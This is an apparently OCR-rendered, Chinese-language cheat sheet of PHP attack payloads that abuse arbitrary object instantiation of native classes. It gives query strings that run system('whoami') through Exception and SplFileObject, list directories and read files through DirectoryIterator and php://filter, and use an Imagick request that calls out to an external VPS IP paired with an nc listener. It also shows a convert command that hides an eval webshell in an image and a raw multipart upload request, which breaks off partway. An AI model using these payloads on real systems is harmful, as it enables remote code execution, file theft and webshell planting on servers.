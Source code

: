 

### 读类信息

- ReflectionClass::export()



### new+原生类

- `eval("echo new $a($b);");`

  复制

  ```
  ?a=Exception&b=system('whoami')
  ?a=SplFileObject&b=system('whoami')
  ```

- `echo new $a($b);`

  复制

  ```
  列目录
  ?a=DirectoryIterator&b=glob://f*
  
  读文件
  ?a=SplFileObject&b=1.php
  ?a=SplFileObject&b=php://filter/convert.base64-encode/resource=1.php
  ```

- `new $a($b);`

  参考：[Exploiting Arbitrary Object Instantiations in PHP without Custom Classes](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

  复制

  ```
  ?a=Imagick&b=http://121.40.253.177:7777
  nc -lvnp 7777
  ```

  按照文中的POC，在VPS中生成一个图片，含有一句话木马：

  `convert xc:red -set 'Copyright' '<?php @eval(@$_REQUEST["a"]); ?>' positiv e.png`

  在VPS中监听12345端口，再往服务器发送请求包如下：

  复制

  ```
  POST /?b=Imagick&c=vid:msl:/tmp/php* HTTP/1.1
  Host: 1.1.1.1:32127
  Cache-Control: max-age=0
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/53
  7.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,i
  mage/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Connection: close
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeTvfNEmq
  Tayg6bqr
  Content-Length: 348
  
  ------WebKitFormBoundaryeTvfNEmqTayg6bqr
  Content-Disposition: form-data; name="123"; filename="exec.msl"
  Content-Type: text/plain
  
  <?xml version="1.0" encoding="UTF-8"?>
  ```